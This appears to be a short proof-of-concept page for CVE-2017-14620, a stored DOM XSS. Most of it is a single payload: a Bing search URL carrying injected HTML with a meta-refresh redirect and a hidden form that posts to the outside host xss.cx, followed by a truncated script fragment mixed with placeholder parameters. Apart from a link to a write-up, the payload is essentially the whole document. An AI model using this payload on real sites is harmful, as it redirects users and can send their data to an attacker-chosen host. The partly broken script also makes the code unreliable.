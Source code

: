 ## CVE-2017-14620 PoC

https://www.cloudscan.me/2017/09/cve-2017-14620-stored-dom-xss.html

```
http://www.bing.com/search?q=<html><head><meta http-equiv=\"refresh\" content=\"5; url=http://xss.cx/\">
<title>Loading</title></head>\n<body><form method=\"post\" action=\"http://xss.cx/\" target=\"_top\" id=\"rf\">
<input type=\"hidden\" name=\"ic\" value=\"0\"><input type=\"hidden\" name=\"fb\" value=\"true\"/></form>\n
<script>!function(e,t){var n,i;return!e.navigator&form=SITE-###&sc=XXX&sp=boolean&qs=true&sk=false
```
